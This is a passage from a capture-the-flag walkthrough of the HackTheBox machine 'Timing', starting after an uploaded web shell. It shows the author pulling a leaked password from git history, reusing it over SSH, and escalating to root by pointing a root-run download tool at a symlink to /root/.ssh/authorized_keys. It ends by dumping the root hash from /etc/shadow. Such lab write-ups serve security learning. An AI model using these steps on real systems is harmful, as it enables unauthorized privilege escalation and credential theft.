Found on: http://10.10.11.135/image.php?img=images/uploads/c35fcbe4f680da2b6c03e8c57acd7415_webshell.jpg

```

And we get a web shell on [http://10.10.11.135/image.php?img=images/uploads/c35fcbe4f680da2b6c03e8c57acd7415_webshell.jpg](http://10.10.11.135/image.php?img=images/uploads/c35fcbe4f680da2b6c03e8c57acd7415_webshell.jpg):



By enumerating we found a zip file on ```/opt/source-files-backup.zip```, By extracting the zip we get:
```console
Archive:  /tmp/t/source-files-backup.zip
   creating: backup/
  inflating: backup/header.php       
  inflating: backup/profile_update.php  
   creating: backup/js/
  inflating: backup/js/jquery.min.js  
  inflating: backup/js/bootstrap.min.js  
  inflating: backup/js/profile.js    
  inflating: backup/js/avatar_uploader.js  
   creating: backup/css/
  inflating: backup/css/login.css    
  inflating: backup/css/bootstrap.min.css  
  inflating: backup/profile.php      
  inflating: backup/logout.php       
  inflating: backup/db_conn.php      
  inflating: backup/auth_check.php   
  inflating: backup/image.php        
  inflating: backup/login.php        
  inflating: backup/avatar_uploader.php  
  inflating: backup/footer.php       
  inflating: backup/index.php        
   creating: backup/images/
  inflating: backup/images/user-icon.png  
   creating: backup/images/uploads/
  inflating: backup/images/background.jpg  
  inflating: backup/upload.php       
   creating: backup/.git/
   creating: backup/.git/refs/
   creating: backup/.git/refs/heads/
 extracting: backup/.git/refs/heads/master  
   creating: backup/.git/refs/tags/
   creating: backup/.git/branches/
 extracting: backup/.git/COMMIT_EDITMSG  
   creating: backup/.git/objects/
   creating: backup/.git/objects/f9/
 extracting: backup/.git/objects/f9/e070df890eec2f1733239c9208734e2a685f0c  
   creating: backup/.git/objects/c6/
 extracting: backup/.git/objects/c6/ec0e2e0274eecbcb4ed8f4c9c8a87e28277c4a  
   creating: backup/.git/objects/f1/
 extracting: backup/.git/objects/f1/c921713053704b60c55f07c88f76c879f3fc6c  
   creating: backup/.git/objects/dc/
 extracting: backup/.git/objects/dc/bc181650833009145874df7da85b4c6d84b2ca  
   creating: backup/.git/objects/3f/
 extracting: backup/.git/objects/3f/1ff21fefc9a2617c7156ad1b2e57ecab743410  
   creating: backup/.git/objects/eb/
 extracting: backup/.git/objects/eb/0a8b410f59eb8abcd21e588f1a7b718db3eebd  
   creating: backup/.git/objects/fd/
 extracting: backup/.git/objects/fd/7fb62599f9702baeb0abdc42a8a4b68e49ec23  
   creating: backup/.git/objects/89/
 extracting: backup/.git/objects/89/916b91f1c5154b3aeb1327a6934c19da1ff655  
   creating: backup/.git/objects/1b/
 extracting: backup/.git/objects/1b/edfa65866f8fec84ae6e0e63e439b8d798114b  
   creating: backup/.git/objects/pack/
   creating: backup/.git/objects/info/
   creating: backup/.git/objects/8d/
 extracting: backup/.git/objects/8d/becc6f5310e51f8fef910b31f51eff1f241cd3  
   creating: backup/.git/objects/6f/
 extracting: backup/.git/objects/6f/e7b341f6774596b25dd18bbd3663c662a59885  
   creating: backup/.git/objects/ee/
 extracting: backup/.git/objects/ee/6ea8f102ea1c5539ee346a2d5ced5c9beda66a  
   creating: backup/.git/objects/5b/
  inflating: backup/.git/objects/5b/96335ff6a02021199d731eaa19ccadd1dc8af8  
   creating: backup/.git/objects/84/
 extracting: backup/.git/objects/84/89c4f1c46d63a7fda71e496af68e0d2c2f96dc  
   creating: backup/.git/objects/16/
 extracting: backup/.git/objects/16/de2698b5b122c93461298eab730d00273bd83e  
   creating: backup/.git/objects/b4/
 extracting: backup/.git/objects/b4/e1ab3aa01c3f421f5c425e4800e6fc526ef000  
   creating: backup/.git/objects/3b/
 extracting: backup/.git/objects/3b/c107cb179fdd8d51cc7ca145cc1552b1238e67  
   creating: backup/.git/objects/0f/
 extracting: backup/.git/objects/0f/8a8564c67a0c18ced9f8e28f69e1c2191a2bb3  
   creating: backup/.git/objects/1f/
 extracting: backup/.git/objects/1f/457949f1dd206bad3e80428ad470860a516e63  
   creating: backup/.git/objects/e4/
 extracting: backup/.git/objects/e4/e214696159a25c69812571c8214d2bf8736a3f  
   creating: backup/.git/objects/8c/
 extracting: backup/.git/objects/8c/47c87fa49b159a46090ce5dd118f09c21e5b7d  
   creating: backup/.git/objects/93/
  inflating: backup/.git/objects/93/a21bd2695c99e0f88b0a8edbf187a774029a91  
   creating: backup/.git/objects/e3/
  inflating: backup/.git/objects/e3/d8b7a902e4dbdf6c29bff6d09dde7ed91b89e3  
   creating: backup/.git/objects/c1/
 extracting: backup/.git/objects/c1/00fe9eccd7aca0340af22928b059d1b61c8d78  
   creating: backup/.git/objects/53/
 extracting: backup/.git/objects/53/97ffa3fba95f07ddb5429457549fb468c8d710  
   creating: backup/.git/objects/b0/
  inflating: backup/.git/objects/b0/614034ad3a95e4ae9f53c2b015eeb3e8d68bde  
 extracting: backup/.git/objects/b0/b06798ca41889f827e4d4a5e54b7c54196171b  
   creating: backup/.git/objects/94/
 extracting: backup/.git/objects/94/b0cf6a9ad8e727b64f14b5a642650b83228eba  
   creating: backup/.git/objects/3a/
 extracting: backup/.git/objects/3a/98be88c7b38b13b7f37db2c899a4b19e030772  
   creating: backup/.git/info/
  inflating: backup/.git/info/exclude  
  inflating: backup/.git/description  
 extracting: backup/.git/HEAD        
   creating: backup/.git/hooks/
  inflating: backup/.git/hooks/update.sample  
  inflating: backup/.git/hooks/pre-push.sample  
  inflating: backup/.git/hooks/pre-rebase.sample  
  inflating: backup/.git/hooks/pre-commit.sample  
  inflating: backup/.git/hooks/post-update.sample  
  inflating: backup/.git/hooks/pre-applypatch.sample  
  inflating: backup/.git/hooks/commit-msg.sample  
  inflating: backup/.git/hooks/fsmonitor-watchman.sample  
  inflating: backup/.git/hooks/pre-receive.sample  
  inflating: backup/.git/hooks/prepare-commit-msg.sample  
  inflating: backup/.git/hooks/applypatch-msg.sample  
   creating: backup/.git/logs/
   creating: backup/.git/logs/refs/
   creating: backup/.git/logs/refs/heads/
  inflating: backup/.git/logs/refs/heads/master  
  inflating: backup/.git/logs/HEAD   
  inflating: backup/.git/config      
  inflating: backup/.git/index       
  inflating: backup/admin_auth_check.php  
```

We can see there ```.git``` directory, Let's try to run a ```git log``` command:



We can see the commit about ```db_conn updated```, Let's checkout this commit by running ```git checkout e4e214696159a25c69812571c8214d2bf8736a3f```.

Now, Let's try to read the file ```db_conn.php``` again:



And we can see that we get a different password ```S3cr3t_unGu3ss4bl3_p422w0Rd```, Let's try this password to user ```aaron```:
```console
┌─[evyatar@parrot]─[/hackthebox/Timing]
└──╼ $ ssh aaron@10.10.11.135
aaron@10.10.11.135's password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jan  8 01:52:21 UTC 2022

  System load:  0.0               Processes:           171
  Usage of /:   48.9% of 4.85GB   Users logged in:     0
  Memory usage: 10%               IP address for eth0: 10.10.11.135
  Swap usage:   0%


8 updates can be applied immediately.
8 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


aaron@timing:~$ cat user.txt
954f27982e4759f90c7a994193fa3b64

```

And we get the user flag ```954f27982e4759f90c7a994193fa3b64```.

### Root

By running ```sudo -l``` we get the following:
```console
aaron@timing:/tmp$ sudo -l
Matching Defaults entries for aaron on timing:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User aaron may run the following commands on timing:
    (ALL) NOPASSWD: /usr/bin/netutils
```

Let's run ```netutils``` as root:
```console
aaron@timing:/tmp$ sudo /usr/bin/netutils 
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 
```

Let's choose the HTTP option:
```console
Input >> 1
Enter Url: 10.10.14.14:1111/test
Initializing download: http://10.10.14.14:1111/test
Connection gone.

netutils v0.1
```

And we can see the following request:
```console
┌─[evyatar@parrot]─[/hackthebox/Timing]
└──╼ $ nc -lvp 1111
listening on [any] 1111 ...
10.10.11.135: inverse host lookup failed: Unknown host
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.135] 49956
GET /t HTTP/1.0
Host: 10.10.16.3:1111
Accept: */*
Range: bytes=1-
User-Agent: Axel/2.16.1 (Linux)

```

We can see the binary use ```Axel``` version ```2.16.1``` to make the HTTP requests, We can see that also using [pspy](https://github.com/DominicBreuker/pspy):
```console
...
2022/01/08 19:26:30 CMD: UID=0    PID=95985  | /root/axel http://10.10.14.14/test 
2022/01/08 19:26:39 CMD: UID=0    PID=96000  | wget -r ftp://10.10.14.14/test 
...
```

Where ```/root/axel``` is for HTTP requests and ```wget``` used for ```FTP``` requests.

When we are downloading a file using ```netutils``` it's writing the file with ```root``` permission.

We can make ```root``` to overwrite files by creating ```symlink``` to the file we want to overwrite.

Let's create a ```symlink``` to ```/root/.ssh/authorized_keys```:
```console
aaron@timing:~$ ln -s /root/.ssh/authorized_keys keys
aaron@timing:~$ ls -ltr
total 12
-rw-r----- 1 root  aaron   33 Jan  8 01:27 user.txt
-rw-r--r-- 1 root  root  5609 Jan  8 01:54 default
lrwxrwxrwx 1 aaron aaron   26 Jan  8 22:38 keys -> /root/.ssh/authorized_keys

```

Now, Let's put our SSH public key in our host on a file called ```keys``` and open a web server:
```console
┌─[evyatar@parrot]─[/hackthebox/Timing]
└──╼ $ cat keys
┌─[evyatar@parrot]─[/hackthebox/Timing]
└──╼ $ ssh-rsa AAAAB3Nz....<YOUR PUBLIC KEY>.....ND0= evyatar@parrot
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

Now, Let's run ```netutils``` and download this file:
```console
sudo /usr/bin/netutils 
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 1
Enter Url: 10.10.14.14:8000/keys
Initializing download: http://10.10.14.14:8000/keys
File size: 565 bytes
Opening output file keys
Server unsupported, starting from scratch with one connection.
Starting download


Downloaded 565 byte in 0 seconds. (0.92 KB/s)

```

At this time, ```root``` overwrite the content of ```/root/.ssh/authorized_keys``` with our SSH public key.

Now we can login as ```root``` with our SSH private key:
```console
┌─[evyatar@parrot]─[/hackthebox/Timing]
└──╼ $ ssh -i id_rsa root@10.10.11.135
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jan  8 22:39:37 UTC 2022

  System load:  0.06              Processes:           179
  Usage of /:   52.0% of 4.85GB   Users logged in:     1
  Memory usage: 22%               IP address for eth0: 10.10.11.135
  Swap usage:   0%


8 updates can be applied immediately.
8 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Dec  7 12:08:29 2021
root@timing:~# cat root.txt
34cffe2122a85199698e581673844afa

```

And we get the root flag ```34cffe2122a85199698e581673844afa```.


PDF password:
```console
root@timing:~# cat /etc/shadow | grep root | cut -d':' -f2
$6$94dEO.yJ$NVRpUQ0JnWZJKDRr//hnXKGJeiXCVSYkdlxYt7UgkvIr/3z8pkQwoEd67QtnWALkGV9A.C8T3hGtxUeZIH7ZW.
```